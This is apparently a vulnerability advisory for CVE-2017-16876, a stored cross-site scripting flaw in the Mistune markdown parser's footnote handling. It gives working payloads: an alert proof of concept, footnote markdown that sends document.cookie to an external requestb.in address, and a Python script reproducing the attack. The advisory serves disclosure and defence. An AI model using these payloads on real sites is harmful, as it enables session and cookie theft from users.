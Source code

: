 # Mistune
## Stored XSS vulnerability in the \_keyify function


|  |  |
|---|---|
| **Vulnerability** | Stored XSS vulnerability in the \_keyify function | 
| **Vendor** | Lepture |
| **Product** | Mistune - The fastest markdown parser in pure Python with renderer features, inspired by marked. - https://github.com/lepture/mistune/ |
| **Vulnerable version** | 0.8 |
| **Fixed version** | 0.8.1 |
| **CVE** | CVE-2017-16876 |
| **CVSS Score** | 6.1 Medium |
| **CVSS Vector** | 3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N |


## References
* https://mistune.readthedocs.io/en/v0.8.4/
* https://nvd.nist.gov/vuln/detail/CVE-2017-16876

## Description

### Alert proof of concept:
```
Footnote 1 link[^first" onclick="alert(1)].
[^first" onclick="alert(1)]: Footnot
```

### Cookie exfiltration:
```
Footnote 1 link[^first" onclick="window.location.href='https://requestb.in/pmppk9pm?www='+escape(document.cookie)].
[^first" onclick="window.location.href='https://requestb.in/pmppk9pm?www='+escape(document.cookie)]: Footnot
```

Python example:
```python
import mistune
renderer = mistune.Renderer(escape=True, hard_wrap=True)
markdown = mistune.Markdown(renderer=renderer)
print('Works good:', markdown('[asd](qwe"onmouseover=")'))
xss = "Footnote 1 link[^first\" onclick=\"window.location.href='https://requestb.in/qqmmvkqq?www='+escape(document.cookie)].\n[^first\" onclick=\"window.location.href='https://requestb.in/qqmmvkqq?www='+escape(document.cookie)]: Footnot"
print('XSS:', markdown(xss))
```